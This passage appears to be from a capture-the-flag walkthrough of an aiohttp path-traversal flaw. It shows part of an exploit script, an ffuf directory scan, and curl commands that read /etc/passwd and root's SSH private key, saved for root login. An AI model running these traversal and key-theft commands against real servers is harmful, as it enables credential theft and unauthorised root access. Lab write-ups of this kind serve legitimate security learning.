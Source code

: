 ```
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent(''' Usage:
            exploit.py -u http://127.0.0.1 -f /etc/passwd -d /static
        ''')
    )

    parser.add_argument('-u', '--url', help="Aiohttp site url")
    parser.add_argument('-f', '--file', help="File to read")
    parser.add_argument('-d', '--directory', help="Directory with static files. Default: /static", default="/static")

    args = parser.parse_args()
    if args.url and args.file and args.directory:
        exploit(args.url, args.file, args.directory)
        print("Exploit complete")
    else:
        print("Error: One of the parameters is missing")
```

After trying this script it is obvious something is wrong. The static page does not exist for us. We need to alter this script to work for us.

Running a fuff scan to discover any directories we can see that directory we need to us.
```
ffuf -ic -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://127.0.0.1:8888/FUZZ
```

With that scan we get the "assets" directory.

Running the script with the "assets" directory gives us what we want.
```
python3 exploit.py -u http://127.0.0.1:8888 -f /etc/passwd -d /assets
```

Now that we know the directory and count of traversals we need we can use a curl command to only pull what we need.

```
curl -s --path-as-is "http://127.0.0.1:8888/assets/../../../etc/passwd"
```

We can now pull the id_rsa for root using this command.
```
curl -s --path-as-is "http://127.0.0.1:8888/assets/../../../root/.ssh/id_rsa"
```
>![[Pasted image 20250128222044.png]]

Using the command again we can just save it to a file to us.
```
curl -s --path-as-is "http://127.0.0.1:8888/assets/../../../root/.ssh/id_rsa" > chemistry_id_rsa 
```

Now all that is left to do is change the permissions of the file and ssh to the machine as root.
```
chmod 700 chemistry_id_rsa
```
>![[Pasted image 20250128222540.png]]

---